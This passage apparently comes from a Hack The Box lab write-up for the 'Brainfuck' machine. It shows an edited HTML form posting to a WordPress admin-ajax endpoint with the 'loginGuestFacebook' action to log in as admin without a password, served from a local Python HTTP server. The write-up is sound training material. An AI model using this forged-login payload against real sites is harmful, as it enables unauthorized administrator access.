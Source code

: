 After copying the html form to a new file, I edit it to make it work.

```php
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="admin">
	<input type="hidden" name="email" value="orestis@brainfuck.htb">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

I start a http server on my machine

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/brainfuck/wordpress]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
And open the form on my web browser

![](https://github.com/Leo-2807/Writeups/blob/main/images/brainfuck4.png)

![](https://github.com/Leo-2807/Writeups/blob/main/images/brainfuck5.png)

It worked!
